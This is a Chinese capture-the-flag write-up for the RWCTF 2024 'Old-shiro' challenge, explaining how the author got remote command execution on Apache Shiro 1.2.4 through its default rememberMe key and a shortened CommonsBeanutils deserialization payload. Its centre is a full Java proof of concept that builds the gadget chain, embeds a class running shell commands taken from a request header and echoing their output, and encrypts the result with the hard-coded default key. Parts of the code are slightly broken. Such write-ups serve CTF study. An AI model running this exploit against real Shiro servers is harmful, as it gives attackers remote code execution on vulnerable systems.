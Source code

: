 ```yaml
---
title: rwctf_Old-shiro题解
date: 2024-01-28 18:53:00 +0800
img_path: /
categories: [CTF, CTF比赛记录]
tags: [CTF, CTF比赛记录]   
---
```


# Old-shiro题解

## 一、题目分析

访问如下：

![image-20240201172410953](assets/image-20240201172410953.png)

注意到`Remermber me`同时考察的是`Shiro`，果断打✔尝试登录抓包。

![image-20240201172722149](assets/image-20240201172722149.png)

发现关键字为`rememberMe_rwctf_2024`（反编译jar包也可以看到），看一下`pom.xml`依赖。

![image-20240201172941766](assets/image-20240201172941766.png)

`shiro 1.2.4`是存在默认`key`的，验证一下：

![image-20240201173135309](assets/image-20240201173135309.png)

同时注意到有`cb1.9.2`，直接爆破一下利用链吧。

![image-20240201173227902](assets/image-20240201173227902.png)

果然“没”链子，测试发现`400`了，估计是限制长度了(和我出的PolarOA差不多)。

![image-20240201173351584](assets/image-20240201173351584.png)

手打一下，生成个稍微短的`payload`(3300左右)试试。

![image-20240201174227992](assets/image-20240201174227992.png)

还是不行！？



## 二、缩短Payload

题目是不出网的，所以还是得使用回显打，如何缩短`payload`呢？

[Shiro rememberMe 在线解密 (potato.gold)](https://potato.gold/navbar/tool/shiro/ShiroTool.html)这是个`Shiro rememberMe`在线解密的网站，能够帮助我们分析如何缩短我们的`Payload`。

分析了一下`shiro`反序列化综合利用工具的源码: https://github.com/SummerSec/ShiroAttack2/blob/master/src/main/java/com/summersec/attack/deser/echo/SpringEcho.java，这里为什么看这个工具的源码呢？因为我发现这个工具生成的`payload`解密后`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 中 `_bytecodes`的`.class`字节码文件比我正常生成的要短不少。

正常我们去本地编译恶意类需要继承`AbstractTranslet`但是`idea`强制需要我们实现里面的方法否则报错：`类“MyExec”必须声明为抽象，或为实现“AbstractTranslet”中的抽象方法“transform(DOM, DTMAxisIterator, SerializationHandler)”`也就有了下方的内容。

![image-20240201181806062](assets/image-20240201181806062.png)

这样会导致我们生成的恶意字节码长度暴增，因为引入了额外的依赖。

而`shiro`反序列化综合利用工具使用`javassist`生成`class`字节码，我们可以在解密网站下载`class`反编译看看。

![image-20240201182526137](assets/image-20240201182526137.png)

对比发现使用`javassist`生成`class`并没有引入额外的依赖，所以可以更短一些。（为什么呢？有大佬懂么？欢迎指点！）



最终通过删除不必要的字符串和方法逻辑实现了如下`POC`：

```java
package ysoserial.shiropoc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.PriorityQueue;

import static ysoserial.payloads.util.Reflections.setFieldValue;


public class POC {
    public static void main(String[] args) throws Exception {
        com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl templates = getTemplate();

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(queue);
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));//shiro默认密钥
        byte[] bytes = byteArrayOutputStream.toByteArray();

        ByteSource ciphertext;
        ciphertext = aes.encrypt(bytes, key);
        System.out.println(ciphertext);
    }
   	public static CtClass genPayloadForLinux() throws NotFoundException, CannotCompileException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("A");
        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public B() throws Exception {\n" +
            "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();\n" +
            "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();\n" +
            "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();\n" +
            "                String[] cmd =  new String[]{\"sh\", \"-c\", httprequest.getHeader(\"C\")};\n" +
            "                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter(\"\\\\A\").next().getBytes();\n" +
            "                httpresponse.getWriter().write(new String(result));\n" +
            "                httpresponse.getWriter().flush();\n" +
            "                httpresponse.getWriter().close();\n" +
            "        }", clazz));
        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    public static com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl getTemplate() throws Exception {

        CtClass clz = genPayloadForLinux();
        com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl obj = new com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clz.toBytecode()});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        return obj;
    }
}
```

生成大概`2700`左右，尝试一下。。。。

![image-20240201175718456](assets/image-20240201175718456.png)

长度校验的是什么呢？把`Request`中的字段删除测试，发现是对整个请求包的长度校验。

删除一部分即可，最后如下：

![image-20240201180532187](assets/image-20240201180532187.png)

![image-20240201180619643](assets/image-20240201180619643.png)

## 三、感悟

前段时间出靶场题目时也遇到了需要回显利用的（`题目上到靶场是不出网的`）且需要确保`rememberMe`不能过长（`为了防止工具能直接梭哈，这样失去了出题的意义`）的问题，出题的时候限制的`rememberMe`长度是不能超过`3500`，因为在解本题之前的时候能生成可利用的`payload`长度最短也有`3400`左右个字符。通过本题，结合之前出题的过程也是顺利的解决了这个问题，未来再出个更短的？`3000`？出个高版本的`shiro`吧，毕竟实战中如何获取`key`也很重要！
